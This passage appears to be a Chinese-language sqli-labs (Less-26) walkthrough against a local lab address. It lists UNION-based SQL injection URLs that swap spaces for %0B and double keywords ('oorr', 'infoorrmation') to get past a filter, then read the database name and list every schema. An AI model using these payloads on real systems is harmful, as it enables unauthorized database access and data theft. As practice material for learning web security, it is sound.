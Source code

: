 #### 判断回显位

```
http://192.168.231.129:9001/Less-26/?id=0'%0Bunion%0Bselect%0B1,2,3%0Boorr%0B'1'='1
```

<img src="%E6%A9%99%E5%AD%90%E7%A7%91%E6%8A%80.assets/image-20230607145730891.png" alt="image-20230607145730891" style="zoom: 33%;" />

#### 查看当前数据库名

```
http://192.168.231.129:9001/Less-26/?id=0'%0Bunion%0Bselect%0B1,database(),3%0Boorr%0B'1'='1
```

<img src="%E6%A9%99%E5%AD%90%E7%A7%91%E6%8A%80.assets/image-20230607145830944.png" alt="image-20230607145830944" style="zoom: 33%;" />

#### 爆库

```
http://192.168.231.129:9001/Less-26/?id=0'%0Bunion%0Bselect%0B1,group_concat(schema_name),3%0Bfrom%0Binfoorrmation_schema.schemata%0Bwhere%0B'1'='1
```

<img src="%E6%A9%99%E5%AD%90%E7%A7%91%E6%8A%80.assets/image-20230607150009196.png" alt="image-20230607150009196" style="zoom: 33%;" />